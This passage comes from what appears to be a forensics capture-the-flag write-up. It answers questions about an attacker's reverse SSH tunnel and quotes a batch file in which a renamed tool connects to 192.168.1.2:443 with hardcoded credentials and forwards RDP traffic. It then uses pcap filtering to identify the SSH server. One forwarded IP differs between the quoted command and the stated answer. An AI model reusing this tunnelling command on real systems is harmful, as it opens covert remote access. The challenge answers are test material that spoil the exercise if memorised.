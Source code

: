 #### Q29: Like you did notice this batch will be used for Establishing SSH Connection. What is the IP address of SSH Server and its Port? (<ip_addr>:<port>)
```
***.***.*.*:***
```
- FXS.bat content:
```
echo y|C:\Windows\Temp\ekern.exe -ssh -P 443 -l v1ctim -pw C@nt_D3f3nd -R 127.0.0.1:49800:192.168.20.147:3389 192.168.1.2'
```
- Server IP = 192.168.1.2 , Port = 443 
##### - Answer :  `192.168.1.2:443`

<br>

#### Q30: The actor used the technique of port forwarding to listen on the remote port: `ANS1`, and forward the requests to `ANS2`. ANS* = <ip_addr>:<port>
```
ASN1, ANS2
```
- `127.0.0.1:49800 ` is the local machine (server) where the reverse tunnel listens for incoming connections.
- `192.168.20.145:3389` to which the reverse tunnel forwards the incoming connections. This is used to forward RDP requests.

##### - Answer: `127.0.0.1:49800, 192.168.20.145:3389`

<br>

#### Q32: What is the type of SSH Server that the attacker uses? (Software Name)
```
SSH-*.*-*.** *******:******** *** ****** (*******) *.**
```
> [!TIP]
> How many handshakes?
> Push Harder
- Let's Get Back to Pcap
- Filter: `ip.addr==192.168.1.2 and  tcp.port eq 443`
- Let's Follow the TCP threeway handshake
- Now Find PSH Flags and we got our answer
![image](https://github.com/user-attachments/assets/6ce73cee-ab06-49b5-9759-4e48becf6d52)

##### - Answer: `SSH-2.0-9.38 FlowSsh: Bitvise SSH Server (WinSSHD) 9.38`

<br>

#### Q33: Over this SSH Connection the Attacker was able to RDP. Can you identify the timestamp of the first time ? (Y-M-D 24:00)
